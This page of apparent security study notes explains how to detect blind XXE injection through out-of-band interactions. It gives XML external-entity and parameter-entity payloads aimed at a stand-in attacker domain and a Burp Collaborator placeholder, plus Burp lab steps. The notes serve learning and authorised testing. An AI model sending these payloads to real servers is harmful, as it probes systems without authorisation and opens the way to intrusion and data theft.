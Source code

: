 Detecting blind XXE can be done by using the same technique as [XXE to SSRF attacks](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FChained%20XXE%20to%20SSRF), but triggering the out-of-band network interaction to a system that an attacker control. For example, an attacker can define an external entity as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This attack will cause the server to make HTTP request to the specified URL which the attacker can monitor for the resulting DNS lookup and HTTP request, and thereby confirming a successful blind XXE.

1. In Burp Proxy, intercept the request and modify the XML in the request body with the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
2. Right click and select **Insert Collaborator payload**  to insert a Burp Collaborator subdomain where indicated.
3. Go to the Collaborator tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
## Out-of-band Interaction via XML Parameter Entities
Sometimes, XXE attacks using regular entities are blocked due to input validation by the application or some hardening of the XML parser that is being used. In this situation, an attacker might use XML parameter entities instead, which are a special kind of XML entity which can only be reference within the DTD.

For this technique, an attacker only need to know two things:
1. The declaration of an XML parameter entity includes the percent character before the entity name: `<!ENTITY % myparameterentity "my parameter entity value" >`
2. Parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means, an attacker can test for blind XXE with the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>299</productId></stockCheck>
```